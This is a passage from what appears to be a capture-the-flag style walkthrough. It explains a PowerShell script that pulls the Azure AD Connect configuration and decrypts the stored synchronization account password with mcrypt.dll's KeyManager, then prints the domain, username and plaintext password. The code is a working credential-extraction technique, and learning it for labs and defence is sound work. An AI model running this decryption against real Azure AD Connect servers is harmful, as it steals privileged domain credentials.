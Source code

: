 1. private_configuration_xml (which contains basic user/domain info, also specifies if password is encrypted or not) 

Sample output:

```xml
<adma-configuration>                                                                                                  
 <forest-name>MEGABANK.LOCAL</forest-name>                             
 <forest-port>0</forest-port>       
 <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>                                                    
 <forest-login-user>administrator</forest-login-user>                                                                                             
 <forest-login-domain>MEGABANK.LOCAL</forest-login-domain>

[snip.....]
```

2. encrypted_configuration which contains our encrypted password (base64 encrypted) 

Sample output:
```bash
8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8
Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g95aWEcUSzl7mTXwR4Pe3uvsf2P8Oafih7cjjsubFxqBioXBUIuP+BPQCETPAtccl7BNRxKb2aGQ=
```
It then proceeds to store them in their respected variables.


```powershell
# Import the dll into powershell
add-type -path "C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll"

# Setup KeyMaanger object
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager

# Pass it the data we gatherd from the first SQL command, and then decrypt the encrypted base64
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
```
Detailed explanation:

This block of the script uses add-type to a .NET dll into a powershell session. It then uses the keymanager utility and passes in the entropy, instance_id, and finally the key_id. We then fetch the appropriate symmetric key that we can use to decrypt the encrypted base64. As you might find out we are using Key #1.

```powershell
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}

"[+] Domain:  " + $domain.Domain
"[+] Username: " + $username.Username
"[+]Password: " + $password.Password
}}
```
